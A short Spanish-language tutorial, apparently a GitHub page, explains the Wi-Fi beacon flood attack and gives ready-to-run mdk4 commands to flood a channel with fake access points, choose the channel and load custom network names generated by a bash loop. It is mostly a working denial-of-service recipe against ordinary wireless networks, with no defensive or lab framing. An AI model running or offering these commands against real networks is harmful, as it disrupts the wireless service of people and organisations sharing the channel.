 #  Ataque Beacon Flood

El ataque Beacon Flood se basa en enviar una gran cantidad de paquetes beacon. Estos paquetes son los que emiten los puntos de acceso para que podamos detectarlos. La idea de este ataque es inundar un canal con estos paquetes, saturando la señal del canal y afectando a las demás redes que operan en él.

Para llevar a cabo este ataque vamos a usar la herramienta `mdk4`

`mdk4 wlan0mon b`

![imagen](https://github.com/user-attachments/assets/98b2cea6-b395-4bb9-a9ef-f7de66908694)

Si queremos indicar en que canal se crean los puntos de acceso debemos usar el parámetro `-c`

`mdk4 wlan0mon b -c 5`

![imagen](https://github.com/user-attachments/assets/dad4cd8b-1c52-4b0e-8a45-bddfcd81b0fe)

Si queremos ponerles nombres personalizados a las redes podemos hacerlo pasándole un archivo con distintos nombres de puntos de acceso.

```bash
for i in $(seq 1 10); do echo "wifi $i"; done > nombres.txt
```

`mdk4 wlan0mon b -c 5 -f nombres.txt`

![imagen](https://github.com/user-attachments/assets/b3298ada-0403-4a69-9944-dd29a72e6a99)

